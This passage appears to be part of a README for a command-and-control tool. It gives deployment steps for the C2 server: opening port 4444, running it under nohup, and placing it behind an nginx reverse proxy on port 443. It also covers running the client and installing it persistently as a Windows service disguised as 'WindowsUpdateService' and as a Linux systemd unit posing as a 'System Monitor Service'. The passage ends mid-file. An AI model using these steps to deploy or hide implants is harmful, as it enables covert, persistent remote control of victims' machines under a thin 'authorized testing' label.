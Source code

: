 #### **Option 2: Cloud VPS (for authorized testing)**
```bash
# 1. Set up cloud instance (AWS, DigitalOcean, etc.)
# 2. Configure firewall rules
sudo ufw allow 4444/tcp

# 3. Start server with nohup
nohup ./c2_server > server.log 2>&1 &

# 4. Monitor logs
tail -f server.log
```

#### **Option 3: Reverse Proxy Setup**
```nginx
# nginx.conf
server {
    listen 443 ssl;
    server_name your-domain.com;
    
    ssl_certificate /path/to/cert.pem;
    ssl_certificate_key /path/to/key.pem;
    
    location / {
        proxy_pass http://127.0.0.1:4444;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
    }
}
```

### **Client Deployment Methods**

#### **Method 1: Direct Execution**
```bash
# Simple execution
./c2_client --server 192.168.1.100

# With custom configuration
./c2_client --server target-server.com --port 443 --heartbeat-interval 300
```

#### **Method 2: Service Installation (Windows)**
```batch
REM Create service wrapper
sc create "WindowsUpdateService" binPath= "C:\Windows\System32\svchost.exe" start= auto
REM Replace with actual client binary path in production
```

#### **Method 3: Systemd Service (Linux)**
```bash
# Create service file
sudo tee /etc/systemd/system/system-monitor.service << EOF
[Unit]
Description=System Monitor Service
After=network.target

[Service]
Type=simple
ExecStart=/opt/system-monitor/monitor
Restart=always
RestartSec=30
User=nobody

[Install]
```
